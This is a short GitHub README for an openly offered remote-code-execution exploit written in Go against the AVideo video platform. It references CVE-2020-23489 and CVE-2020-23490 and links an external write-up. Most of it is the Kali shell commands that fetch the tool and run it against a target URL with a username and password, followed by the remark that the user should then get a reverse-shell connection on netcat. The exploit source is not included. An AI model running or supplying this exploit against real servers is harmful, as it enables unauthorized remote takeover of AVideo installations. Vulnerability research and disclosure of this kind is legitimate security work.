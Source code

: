 # AVideo3xploit.go

RCE exploit for [AVideo](https://github.com/WWBN/AVideo/) 

```
root@kali:~# go get github.com/fatih/color
root@kali:~# git clone https://github.com/ahussam/AVideo3xploit.git
root@kali:~# cd AVideo3xploit
root@kali:~/AVideo3xploit# go run AVideo3xploit.go http://[target]/avideo/ username password
```

You should get a connection on your nc 

![avideo-5](av-5.png)

## Write-up 

https://cube01.io/blog/Avideo-Remote-Code-Execution.html

## CVE 

CVE-2020-23489 & CVE-2020-23490

